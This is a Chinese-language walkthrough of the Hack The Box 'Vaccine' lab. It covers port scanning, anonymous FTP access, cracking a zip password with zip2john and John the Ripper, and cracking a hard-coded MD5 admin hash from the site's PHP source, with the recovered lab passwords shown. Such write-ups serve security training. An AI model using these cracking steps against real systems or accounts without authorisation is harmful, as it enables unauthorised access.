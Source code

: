 # Starting Point：

## Vaccine：

nmap扫一下：

```
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http
```

先ftp尝试匿名登录，成功，找到`backup.zip`应该是源码备份了

这里`get`下载下来，`unzip`解压发现要密码。这里提示是要暴力破解了。

当你设置zip密码时，压缩软件会对你的密码算一个hash，放在zip文件头中。解密的时候压缩软件会先用这个hash先验证一下密码对不对，对了再去解密文件内容。

我们先用`zip2john`提取压缩包的密码hash出来，然后用`john the ripper`暴力破解

`zip2john backup.zip > zip_hash`

```
┌──(root㉿kali)-[/home/orange/HTB]
└─# john -w=/usr/share/wordlists/rockyou.txt zip_hash 
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
741852963        (backup.zip)     
1g 0:00:00:00 DONE (2025-09-19 12:28) 25.00g/s 409600p/s 409600c/s 409600C/s 123456..cocoliso
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

解压出来一个index.php，一个style.css，关键代码如下

```
<?php
session_start();
  if(isset($_POST['username']) && isset($_POST['password'])) {
    if($_POST['username'] === 'admin' && md5($_POST['password']) === "2cb42f8734ea607eefed3b70af13bbd3") {
      $_SESSION['login'] = "true";
      header("Location: dashboard.php");
    }
  }
?>
```

这里看到md5想到绕过，但是是`===`，那么就md5碰撞

```
┌──(root㉿kali)-[/home/orange/HTB]
└─# john -w=/usr/share/wordlists/rockyou.txt --format=Raw-MD5 pass_hash 
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5 [MD5 256/256 AVX2 8x3])
Warning: no OpenMP support for this hash type, consider --fork=8
Press 'q' or Ctrl-C to abort, almost any other key for status
qwerty789        (?)     
1g 0:00:00:00 DONE (2025-09-19 12:59) 33.33g/s 3340Kp/s 3340Kc/s 3340KC/s shunda..pogimo
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
Session completed. 
```
